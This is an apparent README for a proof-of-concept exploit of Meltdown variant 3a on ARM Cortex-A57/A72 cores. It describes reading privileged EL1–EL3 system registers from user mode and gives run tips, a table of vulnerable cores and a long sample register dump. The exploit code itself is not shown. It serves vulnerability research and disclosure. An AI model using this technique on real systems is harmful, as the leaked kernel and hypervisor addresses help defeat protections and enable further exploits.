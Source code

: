 PoC code implementing variant 3a of the Meltdown attack for AArch64. This allows reading all (potentially excluding registers whose read has side effects - not verified) system registers from user mode, including those which should only be accessible from the EL1 (kernel), EL2 (hypervisor) and EL3 (secure monitor) modes.

See the [ARM whitepaper](https://developer.arm.com/support/security-update) and the [Meltdown vulnerability](https://spectreattack.com/).

Confirmed to be working on Cortex-A57 and Cortex-A72.


Impact
------

Infoleaks of potentially sensitive data from the OS, hypervisor or secure monitor. No cryptographic keys or user data are expected to be exposed in most cases. So far, I've identified 3 potentially interesting uses for this:

1) confirming the presence of a hypervisor and/or secure monitor on the machine
2) detecting the use of hardware debugging or profiling tools
3) obtaining valid addresses of software running in EL1-EL3 (from the registers containing pointers to the page tables, the exception vector, etc) - potentially useful in developing or deploying exploits for other vulnerabilities in this software


Affected implementations
------------------------

Only showing AArch64 implementations.

| Core             | Vulnerable according to vendor                           | Tested with this exploit |
|------------------|----------------------------------------------------------|--------------------------|
| ARM Cortex-A35   | [no](https://developer.arm.com/support/security-update)  | no                       |
| ARM Cortex-A53   | [no](https://developer.arm.com/support/security-update)  | yes, not vulnerable      |
| ARM Cortex-A57   | [yes](https://developer.arm.com/support/security-update) | yes, vulnerable          |
| ARM Cortex-A72   | [yes](https://developer.arm.com/support/security-update) | yes, vulnerable          |
| ARM Cortex-A73   | [no](https://developer.arm.com/support/security-update)  | no                       |
| ARM Cortex-A75   | [no](https://developer.arm.com/support/security-update)  | no                       |
| APM X-Gene 2     | N/A                                                      | yes, not vulnerable      |
| Cavium ThunderX2 | no                                                       | yes, not vulnerable      |

Please open a pull request if you've tested on any other implementations.


Running it
----------

The access timing is done using a second thread which increments a counter, which means that at least 2 cores need to be online and (close to) idle. DVFS might have to be disabled. In a big.LITTLE system, pin this process to the big cores. Cortex-A57 and Cortex-A72 are the only AArch64-capable cores designed by ARM which are vulnerable (to this variant of Meltdown). Note that bit-level errors are possible, although they should be rare.


Sample output
-------------

The registers marked *dynamic* denote the registers which do not appear to have a constant value during the sampling process. In the sample below, these are the *Generic Timer* registers (CNT\*) and the *Interrupt Status Register* (ISR_EL1).

```
$ ./dump_sys_regs
ACTLR_EL1           : 0x0 
ACTLR_EL2           : 0x73 
ACTLR_EL3           : 0x73 
AIDR_EL1            : 0x0 
AFSR0_EL1           : 0x0 
AFSR0_EL2           : 0x0 
AFSR0_EL3           : 0x0 
AFSR1_EL1           : 0x0 
AFSR1_EL2           : 0x0 
AFSR1_EL3           : 0x0 
AMAIR_EL1           : 0x0 
AMAIR_EL2           : 0x0 
AMAIR_EL3           : 0x0 
CCSIDR_EL1          : 0x70ffe07a 
CLIDR_EL1           : 0xa200023 
CPACR_EL1           : 0x300000 
CPTR_EL2            : 0x33ff 
CPTR_EL3            : 0x0 
CSSELR_EL1          : 0x2 
CTR_EL0             : 0x8444c004 
DISR_EL1            : 0x0 
ERRIDR_EL1          : 0x0 
ERRSELR_EL1         : 0x0 
ERXADDR_EL1         : 0x0 
ERXCTLR_EL1         : 0x0 
ERXFR_EL1           : 0x0 
ERXMISC0_EL1        : 0x0 
ERXMISC1_EL1        : 0x0 
ERXSTATUS_EL1       : 0x0 
ESR_EL1             : 0x56000000 
ESR_EL2             : 0x0 
ESR_EL3             : 0x5e000000 
HACR_EL2            : 0x0 
HCR_EL2             : 0x80000000 
ID_AFR0_EL1         : 0x0 
ID_DFR0_EL1         : 0x3010066 
ID_ISAR0_EL1        : 0x2101110 
ID_ISAR1_EL1        : 0x13112111 
ID_ISAR2_EL1        : 0x21232042 
ID_ISAR3_EL1        : 0x1112131 
ID_ISAR4_EL1        : 0x11142 
ID_ISAR5_EL1        : 0x11121 
ID_ISAR6_EL1        : 0x0 
ID_MMFR0_EL1        : 0x10201105 
ID_MMFR1_EL1        : 0x40000000 
ID_MMFR2_EL1        : 0x1260000 
ID_MMFR3_EL1        : 0x2102211 
ID_MMFR4_EL1        : 0x0 
ID_PFR0_EL1         : 0x131 
ID_PFR1_EL1         : 0x11011 
ID_AA64DFR0_EL1     : 0x10305106 
ID_AA64ISAR0_EL1    : 0x11120 
ID_AA64ISAR1_EL1    : 0x0 
ID_AA64MMFR0_EL1    : 0x1124 
ID_AA64MMFR1_EL1    : 0x0 
ID_AA64MMFR2_EL1    : 0x0 
ID_AA64PFR0_EL1     : 0x2222 
IFSR32_EL2          : 0x0 
LORC_EL1            : 0x0 
LORID_EL1           : 0x0 
LORN_EL1            : 0x0 
MDCR_EL3            : 0x0 
MIDR_EL1            : 0x411fd073 
MPIDR_EL1           : 0x80000103 
PAR_EL1             : 0x7f99305000 
RVBAR_EL3           : 0xf6000000 
REVIDR_EL1          : 0x0 
SCTLR_EL1           : 0x34d5d91d 
SCTLR_EL3           : 0xcd183f 
TCR_EL1             : 0x34b5193519 
TCR_EL2             : 0x80800000 
TCR_EL3             : 0x8080351d 
TTBR0_EL1           : 0xf89f0000d4454000 
TTBR0_EL2           : 0x0 
TTBR0_EL3           : 0x30010b00 
TTBR1_EL1           : 0x8133f000 
TTBR1_EL2           : 0x0 
VDISR_EL2           : 0x0 
VSESR_EL2           : 0x0 
VTCR_EL2            : 0x80000000 
VTTBR_EL2           : 0x0 
AFSR0_EL12          : 0x0 
AFSR1_EL12          : 0x0 
AMAIR_EL12          : 0x0 
CNTFRQ_EL0          : 0x1dcd650 
CNTHCTL_EL2         : 0x3 
CNTHP_CTL_EL2       : 0x0 
CNTHP_CVAL_EL2      : 0x0 
CNTHP_TVAL_EL2      : 0x65a29ee7 (dynamic?)
CNTHV_CTL_EL2       : 0x0 
CNTHV_CVAL_EL2      : 0x0 
CNTHV_TVAL_EL2      : 0x0 
CNTKCTL_EL1         : 0xc6 
CNTKCTL_EL12        : 0x0 
CNTP_CTL_EL0        : 0x0 
CNTP_CTL_EL02       : 0x0 
CNTP_CVAL_EL0       : 0x12878de2 
CNTP_CVAL_EL02      : 0x0 
CNTP_TVAL_EL0       : 0x7801a980 (dynamic?)
CNTP_TVAL_EL02      : 0x0 
CNTPCT_EL0          : 0x162db9aa576c0 (dynamic?)
CNTPS_CTL_EL1       : 0x0 
CNTPS_CVAL_EL1      : 0x0 
CNTPS_TVAL_EL1      : 0x6539bd20 (dynamic?)
CNTV_CTL_EL0        : 0x0 
CNTV_CTL_EL02       : 0x0 
CNTV_CVAL_EL0       : 0x0 
CNTV_CVAL_EL02      : 0x0 
CNTV_TVAL_EL0       : 0x6516d1c0 (dynamic?)
CNTV_TVAL_EL02      : 0x0 
CNTVCT_EL0          : 0x162db9b090480 (dynamic?)
CNTVOFF_EL2         : 0x0 
CONTEXTIDR_EL1      : 0x0 
CONTEXTIDR_EL12     : 0x0 
CONTEXTIDR_EL2      : 0x0 
CPACR_EL12          : 0x0 
CPTR_EL3            : 0x0 
DACR32_EL2          : 0x0 
ESR_EL12            : 0x0 
FAR_EL1             : 0x0 
FAR_EL12            : 0x0 
FAR_EL2             : 0x0 
FAR_EL3             : 0x0 
FPEXC32_EL2         : 0x7f99305000 
HPFAR_EL2           : 0x0 
HSTR_EL2            : 0x0 
ID_AA64AFR0_EL1     : 0x0 
ID_AA64AFR1_EL1     : 0x0 
ID_AA64DFR1_EL1     : 0x0 
ID_AA64PFR1_EL1     : 0x0 
ISR_EL1             : 0x0 (dynamic?)
LOREA_EL1           : 0x0 
LORSA_EL1           : 0x0 
MAIR_EL1            : 0xbbff440c0400 
MAIR_EL12           : 0x0 
MAIR_EL2            : 0x0 
MAIR_EL3            : 0x4404ff 
MDCR_EL2            : 0x6 
MVFR0_EL1           : 0x10110222 
MVFR1_EL1           : 0x12111111 
MVFR2_EL1           : 0x43 
RMR_EL3             : 0x1 
SCR_EL3             : 0x535 
SCTLR_EL12          : 0x0 
SCTLR_EL2           : 0x30c50830 
SDER32_EL3          : 0x0 
TCR_EL12            : 0x0 
TPIDR_EL0           : 0x7f993066f0 
TPIDR_EL1           : 0x1fed81000 
TPIDR_EL2           : 0x0 
TPIDR_EL3           : 0x30010f80 
TPIDRRO_EL0         : 0x0 
TTBR0_EL12          : 0x0 
TTBR1_EL12          : 0x0 
VBAR_EL1            : 0xffffffc000083800 
VBAR_EL12           : 0x0 
VBAR_EL2            : 0x8008a000 
VBAR_EL3            : 0x3000a800 
VMPIDR_EL2          : 0x80000103 
VPIDR_EL2           : 0x411fd073
```
